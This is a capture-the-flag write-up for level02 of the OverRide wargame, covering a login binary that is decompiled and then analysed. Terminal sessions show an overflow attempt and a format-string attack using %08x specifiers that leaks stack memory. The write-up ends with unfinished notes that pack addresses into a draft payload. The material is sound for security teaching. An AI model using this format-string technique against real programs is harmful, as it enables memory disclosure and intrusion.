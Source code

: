 ### step 1: Decompile with Ghidra

C code is available in the `source` file  

### step 2: Code analysis

- Two buffers are filled with `stdin`
  - `buffer1[12]`
  - `buffer2[14]`

- A Username is asked a fill `buffer1`
- If we try to overflow `buffer1` with more than 12 chars, `buffer2` gets filled. Here is an example with only one long input :  

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
--[ Password: *****************************************
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA does not have access!
```

**But we don't get a segfault this way**  

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
--[ Password: *****************************************
AAAAffffe4f0.00000000.00000025.2a2a2a2a.2a2a2a2a.ffffe6e8.f7ff9a08.78383025.30252e78.2e783830.3830252e.252e7838.78383025.30252e78.2e783830.3830252e.252e7838.78383025.00000000. does not have access!
```
7838302530252e782e7838303830252e252e7838

0x400d22 = \x22\x0d\x40\x00
f7ff9a08 = \x08\x9a\xff\xf7
ffffe4f0 = \xf0\xe4\xff\xff
printf ("\x22\x0d\x40\x00_%08x.%08x.%08x.%08x.%08x|%s|")


